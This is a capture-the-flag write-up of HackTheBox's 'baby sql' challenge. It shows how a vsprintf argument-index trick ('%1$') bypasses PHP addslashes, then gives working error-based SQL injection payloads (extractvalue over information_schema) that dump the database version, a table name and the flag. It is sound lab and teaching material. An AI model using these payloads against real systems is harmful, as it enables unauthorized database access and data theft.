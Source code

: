 # baby sql

Completed: Yes
Platform: HackTheBox

The challenge contains the source code of index.php with `addslashes()` and `vsprintf`. Firstly, I tried to target `addslashes` function and found that it can be bypassed with `0bf27` code([http://khlo.co.uk/index.php/1302-Addslashes-Allows-Sql-Injection-Attacks](http://khlo.co.uk/index.php/1302-Addslashes-Allows-Sql-Injection-Attacks)), but here it doesn't work. So, I moved to `vsprintf`. I didn't know how it works in PHP, I looked at the man page of a function. And I found nothing for me as I thought first. I copied a part of the code to myself and started apache2. Thus, I understood, that the function `addslashes` add slashes to ' and ". So, I had to bypass somehow its condition. [https://www.php.net/manual/en/function.vsprintf.php](https://www.php.net/manual/en/function.vsprintf.php) said that the vsprintf has the functionality to use "index of argument", something like `1$`. Also, I found out that in examples people use this notation: `%2$`. So, I tried it with a single quote at the end and passed the filter.  

```python
>>> res = requests.post('http://142.93.35.92:32333', data={"pass":"%1$')"})
>>> res.text
"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '') AND username=('admin')' at line 1"
```

Then, I just used PayloadsAllTheThings([https://github.com/carlospolop-forks/PayloadsAllTheThings/blob/master/SQL injection/MySQL Injection.md](https://github.com/carlospolop-forks/PayloadsAllTheThings/blob/master/SQL%20injection/MySQL%20Injection.md)) and found a flag.

```python
>>> res = requests.post('http://142.93.35.92:32333', data={"pass":"%1$') AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))#"})
>>> res.text
"XPATH syntax error: '~10.5.5-MariaDB~'"
```

```python
>>> res = requests.post('http://142.93.35.92:32333', data={"pass":"%1$') AND extractvalue(rand(),concat(CHAR(126),(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1),CHAR(126)))#"})
>>> res.text
"XPATH syntax error: '~totally_not_a_flag~'"
```

```python
>>> res = requests.post('http://142.93.35.92:32333', data={"pass":"%1$') AND extractvalue(rand(),concat(CHAR(126),(select * from totally_not_a_flag),CHAR(126)))#"})
>>> res.text
"XPATH syntax error: '~HTB{h0w_d1d_y0u_f1nd_m3?}~'"
```

I dunno why this challenges are called `baby`. They are not such `baby` level at all.